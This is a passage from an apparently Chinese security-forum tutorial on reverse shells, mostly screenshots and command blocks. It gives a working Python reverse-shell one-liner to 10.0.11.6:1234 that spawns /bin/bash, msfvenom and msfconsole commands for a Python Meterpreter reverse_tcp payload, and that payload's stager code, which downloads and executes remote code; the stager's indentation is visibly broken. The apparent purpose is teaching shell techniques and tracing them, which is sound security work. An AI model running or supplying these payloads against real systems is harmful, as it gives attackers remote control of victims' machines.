 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-f8edaafe038f4e8aff8aa7dfce04516f8252da9e.png)

先从进程入手

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-d7c9ad78b00c7f548ba6272b809bb4ae2454d115.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-fac07312756665bba87b348d306403c4d2ec06fd.png)

再在攻击者上查看当前tty，看是否是`/dev/pts/2`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-4ca42806009e39118455f89be0ce2edd2afdfc0c.png)

#### Python（双向）

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.11.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-40b9d65113db429509b4d7ab9e2e1acca3ca398a.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-24a6b2f80bf605a829e8362764be406ae44ff4a8.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-8218eacb6fad8e9c4c8160d03df2c350bef6b154.png)

#### msf-python/meterpreter/reverse\_tcp（双向）

```bash
# 控制端
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.11.6 LPORT=1234 -f raw -o /tmp/mrtp.py

msfconsole
msf5 > use exploit/multi/handler
msf5 > set PAYLOAD python/meterpreter/reverse_tcp
msf5 > set LHOST 10.0.11.6
msf5 > set LPORT 1234
msf5 > run

# 被控端
python3 mrtp.py
```

`mrtp.py` 如下：

```python
import socket
import zlib
import base64
import struct
import time
for x in range(10):
try:
    s = socket.socket(2, socket.SOCK_STREAM)
    s.connect(('10.0.11.6', 1234))
    break
except:
    time.sleep(5)
    l = struct.unpack('>I', s.recv(4))[0]
    d = s.recv(l)
    while len(d) < l:
d += s.recv(l - len(d))
exec(zlib.decompress(base64.b64decode(d)), {'s': s})
```
